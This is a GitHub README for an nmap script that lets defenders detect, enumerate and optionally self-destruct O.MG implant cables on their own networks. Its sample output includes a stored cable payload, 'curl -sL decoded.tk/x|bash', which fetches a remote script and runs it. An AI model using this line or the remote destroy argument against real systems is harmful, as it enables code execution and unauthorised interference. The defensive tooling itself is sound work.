 # NMAP SCRIPT to defend agains O.MG-cables in own network

After showcasing a non-public tool which enumerates and destroys an O.MG cable
connected to a blueteam controlled network on [Twitter](https://twitter.com/mame82/status/1222652772597870592)
@_MG_ gave a pretty clear statement in response:

```
The “defeat” was putting it on a hostile network :p. I know you don’t have a cable yet but If you go through the setup docs you’ll see that the network is the security boundary for the current firmware.
But it looks like you’ve made the first 3rd party frontend!

9:16 pm · 30. Jan. 2020
```

Even if the cable user should be aware of this, I think a valid deployment use case from red side would be to connect the cable to a blueteam controlled WiFi,
in order to obtain upstream Internet access.

To counter exactly this case, I ported the showcased tool to an `nmap NSE script`,which is able to detect and enumerate (dump payloads and settings) the cable
in defender controlled networks.

**In addition, an optional `script-arg` has been introduced, which could remotely
trigger the self destruct functionality of the cable after enumerstion.**

See `notes.md` for further details.

## install

Copy `http-omgcable.nse` into nmap's script director or run nmap from a folder containing the script.

## usage

Enumeration only:

```
nmap -p 80 --script http-omgcable <target>
```

Enumeration and self-destruct:

```
nmap -p 80 --script http-omgcable --script-args 'http-omgcable.destroy' <target>
```

## nmap output

```
PORT STATE SERVICE
80/tcp open http
| http-omgcable: O.MG cable detected
|
|
| boot payload enabled (x 01 00 00 00 if enabled)
| -----------------------------------------------
| 0007F800 FF FF FF FF ....
|
| boot payload (encoded in binary triplets [cmd,mod,key])
| -------------------------------------------------------
| EMPTY
|
| payload slot 1
| --------------------
| STRING curl -sL decoded.tk/x|bash
| ENTER
|
| payload slot 2
| --------------------
| EMPTY
|
| payload slot 3
| --------------------
| STRING this is the content of payload slot 3
|
| IP addr
| --------------------
| 000B0000 FF FF FF FF ....
|
|
| user data section 1
| --------------------
| 000FD000 FF FF FF FF FF FF FF FF 02 FF FF FF FF FF FF FF ................
..snip..
| 000FD090 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF ................
| 000FD0A0 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF ................
| 000FD0B0 0A 00 00 00 4F 2E 4D 47 2D 43 61 62 6C 65 00 00 ....O.MG-Cable..
| 000FD0C0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
| 000FD0D0 00 00 00 00 31 32 33 34 35 36 37 38 00 00 00 00 ....12345678....
..snip..
|
|
| user data section 2
| --------------------
| 000FE000 FF FF FF FF FF FF FF FF 02 FF FF FF FF FF FF FF ................
..snip..
| 000FE260 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF ................
|
|
| send destroy command to cable...
|\_...done

```

# licensing

Same as Nmap - See http://nmap.org/book/man-legal.html
